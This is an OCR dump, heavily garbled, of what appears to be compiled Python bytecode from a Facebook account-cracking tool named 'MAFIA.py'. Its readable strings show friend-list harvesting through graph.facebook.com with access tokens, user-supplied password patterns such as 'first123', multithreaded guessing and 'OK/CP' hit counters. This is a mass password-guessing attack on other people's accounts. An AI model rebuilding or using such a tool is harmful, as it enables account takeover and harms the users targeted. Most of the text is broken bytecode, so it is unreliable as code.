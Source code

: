 [3] Method 3 (for old ids)z Choose method: ·% Do you went show cp account? (y/n): ·	 Choose: й┌y┌Y┌yes┌Yesr*   rW   ┌nz%[1;32m Dumping friend list...[1;37mz https://graph.facebook.com/v2.0/z)?fields=friends.limit(5000)&access_token=r5   ┌friendsrK   r%   ·|z No internet connection·) How many passwords do you want to add ? ·*[1;32m exp: first last,firtslast,first123· Put password щ   й┌max_workers· Total account : [1;32mz+ [1;33m>[1;36m> [1;37mMethod -> [1;37mMz6[1;37m [38;5;208mUse flight mode for speed up[1;37mйr*   ┌01й┌2┌02й┌3┌03)rk   ┌04·[1;37m· The process has completed· Total OK/CP: ·/· Press enter to back zpython MAFIA.pyz No friends for щ   )(r   r@   rC   ┌tokenku┌appendrF   r	   r   r   rG   ┌IOErrorr   r   rD   r
   ┌intr   ┌
ValueErrorr#   ┌Session┌range┌pcpr%   rH   rI   ┌tredr   ┌len┌split┌submit┌ffb┌api┌api2┌api5┌api1┌oks┌cpsr   r   ┌public)┌usrrrM   ┌cokrN   r<   ┌jum┌ses┌yz┌met┌kl┌mthd┌cx┌userr┌col┌mi┌iso┌plist┌ps_limit┌i┌crack_submit┌	total_ids┌user┌ids┌names┌passlists                            r   rЗ   rЗ   k   s┤  А ╪
И▌
ЙМИЁ		▌Ш:аc╤*╘*╫/╥/╤1╘1Р▌Ш;аs╤+╘+╫0╥0╤2╘2Р▌ЧТШs╤#╘#╨#╨#°▌Ё 	Ё 	Ё 	▌╨=╤>╘>╨>╜t╝z╚!╣}╝}╕}▌СФРРР▌Ё 	Ё 	Ё 	▌╨=╤>╘>╨>╜t╝z╚!╣}╝}╕}▌СФРРРЁ	°°°Ё	▌Ф|╨$R╨SV╤$V╨bj╨kn╨ao╨p╤p╘p╫u╥u╤w╘wР╪Ш6ФlР▌╨+иD╤0╤1╘1╨1▌СФРР°▌Ё 	Ё 	Ё 	▌╨=╤>╘>╨>╜t╝z╚!╣}╝}╕}▌СФРРРЁ	°°°Ё	6▌Э╨V╤W╘W╤X╘XРР°▌Ё 	6Ё 	6Ё 	6▌╨4╤5╘5╨5╨5╨5Ё	6°°°рИqК5И5РCШТHРH▌СФР▌╘╤╘И╪
И▌ШС:Ф:Ё 	 Ё 	 ИC╪РAСР▌╨=░R╕▒T╨=╨=╨=╤>╘>Р╪ЧТШBСФРР▌
ЙМИ▌
╨%╤&╘&╨&▌
ЙМИ▌
╨l╤m╘m╨m▌
ЙМИ▌╨'╤(╘(И▌
ЙМИ▌
╨5╤6╘6╨6▌
ЙМИ▌Р╤╘И╪
╨*╨*╨*▌Ч
Т
Ш3СФРРхЧ
Т
Ш3СФР▌
ЙМИ▌
╨;╤<╘<╨<▌
ЙМИ╪Ё 	9Ё 	9ИEЁ9╪!ЯgЪg╨&H╚╤&N╨Oz╤&zї  |CЁ  DEЇ  |Fё  'FЁ  S\Ё  ]`Ё  RaШgё  bЇ  bў  gЄ  gё  iЇ  iШ╪"%аiд.░╘"8Ё 0Ё 0ШBЁ!0╪/1░$мx╕й|╕B╕v╝J╤/Fи╪+.╡"и9и9░T▌-/пYкY░sй^м^и^°°╪ /аxаx°°°Ё0°ї !е╨)Ё Ё Ё ╪Ш▌╘*╘:Ё 9Ё 9Ё 9▌╨7╤8╘8╨8╨8╨8Ё9°°°Ё*	╪РЁ$▌#&еu╨-X╤'Y╘'Y╤#Z╘#ZШШ°Ё$╪"#ШШШ°°°▌СФР▌╨E╤F╘F╨F▌СФР▌ШxЩЬЁ FЁ FРA╪ЯЪеU╨+C╕A╕a╣C╨+C╨+C╨+C╤%D╘%D╤E╘E╨E╨E▌аb╨)╤)╘)Ё Uи\▌ЩЬШ▌$'ннBймбLдLШ	▌╨;╕I╤EЁ  GGЁ  AEЁ  GGЁ  GGё  Gё  HЇ  HЁ  H▌╨_╤`╘`╨`▌ЩЬШ▌$&Ё UЁ UШD╪,0пJкJ░sйOмOб	ааE╪+0а╪#'и:╨#5╨#5╪(4╫(;╥(;╜C└└E╚(╤(S╘(S╨(S╨(S╪%)иZ╨%7╨%7╪(4╫(;╥(;╜C└└E╚(╤(S╘(S╨(S╨(S╪%)иZ╨%7╨%7╪(4╫(;╥(;╜D└└U╚8╤(T╘(T╨(T╨(T╪%)иZ╨%7╨%7╪(4╫(;╥(;╜D└└U╚8╤(T╘(T╨(T╨(Tр(4╫(;╥(;╜D└└U╚8╤(T╘(T╨(T╨(TЁUЁ
UЁ UЁ Uё UЇ UЁ UЁ UЁ UЁ UЁ UЁ U°°°Ё UЁ UЁ UЁ Uї& Рl╤#╘#╨#▌СФР▌╨2╤3╘3╨3▌╨&еsн3нsй8м8б}д}╤4░S╤8╜╜S┼╣X╝X╣╝╤F╤G╘G╨G▌СФР▌╨-╤.╘.╨.▌Ф	╨+╤,╘,╨,╨,╨,°▌╘"╘2Ё 	1Ё 	1Ё 	1▌╨/╤0╘0╨0╨0╨0╨0▌Э╨!Ё 	Ё 	Ё 	▌╨0и╨0╨0╤1╘1╨1▌Ф
Ш1С
Ф
Р
▌СФРРРРЁ	°°°s╞   ТAA1 ┴1;C+┬.:C+├*C+├/AE ┼;F╞F╞F$ ╞$G ╞?G ╠.AN?═>8N7╬6N?╬7N;╬9N?╬?O7╧"O7╧6O7╧;Z ╧>P ╨Z ╨P!╨A;Z ╥D.W╫	Z ╫W╫Z ╫W╫B6Z ┌#\┌;A\▄\c            
      є|  Ч t          j        dж  л         t          t          ж  л         	 t	          dж  л        } t          | dж  л        а                    ж   л          n# t          $ r t          dж  л         Y nw xY wt          t	          dж  л        ж  л        }t          dж  л         t	          dж  л        }d}t          |ж  л        D ]<}|d	z
  }t	          d
|z  ж  л        }t          j        d| z   dz   |z   d